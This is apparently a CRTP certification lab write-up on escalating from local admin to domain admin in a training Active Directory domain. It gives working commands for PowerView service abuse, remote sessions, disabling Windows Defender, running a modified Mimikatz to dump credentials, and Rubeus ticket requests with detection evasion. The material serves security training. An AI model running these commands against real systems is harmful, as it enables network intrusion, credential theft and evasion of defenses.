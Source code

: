 ```yaml
---
title: Active Directory (AD) | Exploiting Local Admin to Domain Admin
date: 2024-07-01 00:00:00
categories: [Cert, CRTP]
tags: [Cert,Active Directory]     ## TAG names should always be lowercase
render_with_liquid: false
description: This topic covers the steps and techniques involved in leveraging local administrator access on machines
---
```


![Result](/img/crtp/result10.png){: width="972" height="589" }

## **Step 1: Check for Privilege Escalation Paths**
**Tools Used:** PowerView. This step ensures you can escalate your privileges on the current machine to gain local admin rights. Start by checking for any privilege escalation paths. If any services can be abused, add your domain user to the local admin group.

The Invoke-AllChecks function gathers information on the Active Directory environment, accessible network shares, local administrators, active user sessions, domain trust relationships, and services permissions to aid in network reconnaissance

```bash
Invoke-AllChecks
```
![Result](/img/crtp/result1.png){: width="972" height="589" }
_Invoke-AllChecks_

## **Step 2: Abusing Services**
**Tools Used:** PowerView. After running Step 1, you will have identified a few services that can be abused. We can exploit these services to add our current domain user to the local Administrators group. 

Adding a user to the local Administrators group allows them to perform administrative tasks such as installing software, changing system settings, and accessing all files on the system, which can be crucial for further exploitation and maintaining control over the machine.

```bash
Invoke-ServiceAbuse
Invoke-ServiceAbuse -Name 'AbyssWebServer' -UserName 'dcorp\studentx' -Verbose
```

![Result](/img/crtp/result2.png){: width="972" height="589" }
_Now, our user is a local admin !_


## **Step 3: [Lateral Movement] Identifying Additional Machines for Local Admin Access**

**Tools Used:** Find-PSRemotingLocalAdminAccess.ps1. After gaining local admin rights on one machine, identifying other machines where you have local admin access helps in expanding your control over the network. This can give you access to more resources, data, or higher-privilege accounts. So, you have to identify any computers/machines in the domain where our user has local administrative access.

```bash
Find-PSRemotingLocalAdminAccess
```
![Result](/img/crtp/result3.png){: width="972" height="589" }
_Userx has administrative access on dcorp-adminsrv and on the student machine_

## **Step 4: [Lateral Movement] Exploiting Remote Access**

After identifying machines with local admin access, we can remotely connect using tools like winrs and PowerShell Remoting (Enter-PSSession) because local admin rights grant us the necessary permissions to access and control these machines remotely over the network.

### winrs Remoting
```bash
winrs -r:dcorp-adminsrv cmd
set username
set computername
```
![Result](/img/crtp/result4.png){: width="972" height="589" }

### PowerShell Remoting
```bash
Enter-PSSession -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local
```
![Result](/img/crtp/result5.png){: width="972" height="589" }

## **Step 5: Derivative Local Admin**

Utilize derivative local admin access gained in Step 3 and 4 to identify machines with active domain admin sessions. Exploit these sessions to escalate privileges and potentially gain Domain Admin access, utilizing techniques such as token stealing or credential extraction.

**Tools Used:** Invoke-Mimi. To dump hashes or extract credentials from dcorp-adminsrv, we will use Invoke-Mimi.

### Disable Windows Defender on the target machines
```bash
Set-MpPreference -DisableRealtimeMonitoring $true -Verbose
```

### Disable AMSI on the target machines
```bash
$sess = New-PSSession -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local
Invoke-Command -ScriptBlock {Set-MpPreference -DisableIOAVProtection $true} -Session $sess
```

### Using Dot Sourcing in PowerShell Scripts
In environments with strict security policies or when PowerShell operates in Constrained Language Mode, dot sourcing (.) scripts like Invoke-Mimi.ps1 may be restricted.

So, we must modify Invoke-Mimi.ps1 to include the function call in the script itself and transfer the modified script (Invoke-MimiEx.ps1) to the target server. Here is step-by-step :

- Create a copy of Invoke-Mimi.ps1 and rename it to Invoke-MimiEx.ps1. 
- Open Invoke-MimiEx.ps1 in PowerShell ISE (Right click on it and click Edit). 
- Add "Invoke-Mimi -Command '"sekurlsa::ekeys"' " (without quotes) to the end of the file.
- Copy the Invoke-MimiEx.ps1 to the target machines
```bash
Copy-Item C:\AD\Tools\Invoke-MimiEx.ps1 \\dcorp-adminsrv.dollarcorp.moneycorp.local\c$\'Program Files'
```
- Run the modified mimikatz script
```bash
Enter-PSSession -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local'
.\Invoke-MimiEx.ps1
```

## **Step 6: Obtaining TGT using Rubeus**

### Understanding Ticket Granting Tickets (TGTs)
Ticket Granting Tickets (TGTs) are a fundamental part of the Kerberos authentication protocol. When a user successfully authenticates to the Key Distribution Center (KDC), they receive a TGT. This TGT is a form of credential that allows the user to request service tickets (TGS) for accessing specific network services and resources within the Kerberos realm. It contains encrypted information about the user's identity, session key, and other relevant data required for subsequent authentication.

### Steps to Obtain TGT with Rubeus

- Encode arguments (like asktgt) using tools such as ArgSplit.bat to ensure secure transmission and evasion of detection.
![Result](/img/crtp/result11.png){: width="972" height="589" }
-  Use Loader.exe to initiate Rubeus with the encoded arguments (/args %Pwn%) to request a TGT. 
```bash
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:srvadmin
/aes256:145019659e1da3fb150ed94d510eb770276cfbd0cbd834a4ac331f2effe1dbb4
/opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```
![Result](/img/crtp/result12.png){: width="972" height="589" }
- This retrieves a TGT for the specified user (srvadmin), enabling further operations within the Kerberos realm
- The new process that starts has srvadmin privileges. Check if srvadmin has admin privileges on any other machine.

